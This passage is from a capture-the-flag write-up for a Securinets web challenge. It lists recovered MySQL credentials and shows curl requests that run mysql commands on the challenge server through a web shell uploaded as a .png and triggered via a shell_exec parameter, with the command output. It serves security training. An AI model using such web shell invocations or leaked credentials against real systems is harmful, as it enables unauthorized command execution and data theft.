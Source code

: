 So we got:

```
Mysql Database
Hostname: localhost
Username: symfony_admin
Password: Securinets_dB_P455W0Rd_369
Database: symfony_task_3
```

In this task, mysqldump will not work. Maybe because of the database that was very big or because of user privileges. So we need to searh the flag inside the database step by step.

Let's show database tables:

```
curl -X POST "https://web3.ctfsecurinets.com/uploads/9b3aa7a5c5cebd1318e79442144ffa63/18abe44ac4242278ad0e6448370067d5.png?0=shell_exec" -d "1=mysql -usymfony_admin -pSecurinets_dB_P455W0Rd_369 -hlocalhost --database symfony_task_3 -e 'show tables'"
```

But this strangely will not work.

<p align="center">
<img src="resources/web-1000-unbreakable_uploader/19.PNG"/>
</p>

We tried to go back and retrieve database names maybe we did something wrong

```
curl -X POST "https://web3.ctfsecurinets.com/uploads/9b3aa7a5c5cebd1318e79442144ffa63/18abe44ac4242278ad0e6448370067d5.png?0=shell_exec" -d "1=mysql -usymfony_admin -pSecurinets_dB_P455W0Rd_369 -hlocalhost -e 'show databases'"
```

Clear Output:

```
Database
big_database
information_schema
```

<p align="center">
<img src="resources/web-1000-unbreakable_uploader/20.PNG"/>
</p>
